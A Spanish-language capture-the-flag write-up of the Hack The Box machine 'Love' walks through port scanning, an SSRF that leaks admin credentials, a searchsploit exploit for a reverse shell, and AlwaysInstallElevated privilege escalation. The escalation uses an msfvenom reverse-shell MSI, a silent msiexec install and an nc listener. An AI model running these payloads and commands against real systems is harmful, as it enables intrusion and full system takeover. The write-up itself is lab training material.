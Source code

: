 ## Summary

Tags: #SQLI #SSRF #SearchSploit #WinPEAS #AlwaysInstalledElevated #Msfvenom 

- IP -> 10.10.10.239
- Ports -> TCP (80, 135, 139, 445, 3306, 5000, 5440, 5986, 7680, 47001, 49664-70), UDP (idk)
- OS ->  Windows
- Services & Applications
    -  80 -> Apache httpd 2.4.46 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ ping -c 1 IP              # Verificar conectividad con la maquina victima 
```

```bash 
❯ nmap -p- --open --min-rate 5000 -sS -vvv -Pn -n IP -oG AllPorts  # Escaneo de puertos a la IP

❯ nmap -p<Ports> -sCV IP -oN Targeted                              # Scripts y version de los puertos encontrados
```

```bash 
❯ whatweb IP       # Miramos las tecnologias que corren en la web 

❯ dirb IP          # Encontramos la ruta del admin
```

```bash 
❯ searchsploit votem system      # Mirar si existen exploits y probamos algunos exploits que nos llevan a la autenticacion en el 'votem system' como admin
```

```bash 
# Con el puerto 443 abierto podemos enumerar los dominios, esto con el fin de poderlo hacer de otra manera. 

❯ openssl s_client -connect IP:443     # Inspeccionar el certificado 
```

```bash 
# Encontramos en 'staging.love.htb' un escaner de archivos, el cual nos pide una URL. Por lo que colocamos la de nuestra maquina victima.

❯ python3 -m http.server 80      # Creamos un servidor para recibir la peticion 


# Despues, hacemos peticiones desde la web hacia su 'localhost' por lo que se puede observar que existe un SSRF. Hacemos peticiones a los demas puertos http y en el 5000 encontramos un usuario y una passwd. 

# Nos dirigimos al 'panel admin' y colocamos las credenciales 
```

## User

```bash 
# Una vez dentro del panel de 'votem system' buscamos el exploit en 'searchsploit' que nos ayudara a hacer una 'revershell' con un usuario autenticado. 
```

```bash 
# Una vez dentro buscamos la primer flag llamada 'user.txt' en el desktop del usuario 
```

```bash 
# Para buscar una forma de escalar [privilegios es usando la herramienta de 'WinPeas' desde la siguiente URL

❯ https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225
```

```bash 
# Compartimos el archivo a la maquina Windows 


```
## Root

```bash 
# Depues de ejecutar el 'WinPeas', se observa que encuentra 'AlwaysInstalledElevated' donde:
	AlwaysInstalledElevated set to 1 in HKLM!
	AlwaysInstalledElevated set to 1 in HKCU!

# Podemos ir al recurso de 'hacktricks.xyz' para abusar de eso.
```

```bash 
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.53 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi 

	# p = Payload 
	# platform = Plataforma de Windows 
	# a = Arquitectura 
	# f = Formato 
	# o = Output 

# Con esto nos crearemos una revershell en nuestra maquina de atacante para abusar del binario 'msi'
```

```bash 
# Compartimos el archivo a la maquina Windows 


```

```bash 
❯ msiexec /quiet /qn /i reverse.msi           # Ejecutamos de esta manera el archivo 'msi' en la maquina victima 
```

```bash 
❯ rlwrap nc -nlvp 443                          # Nos ponemos en escucha para recibir la revershell y ahora somos 'NT Authority\System' 
```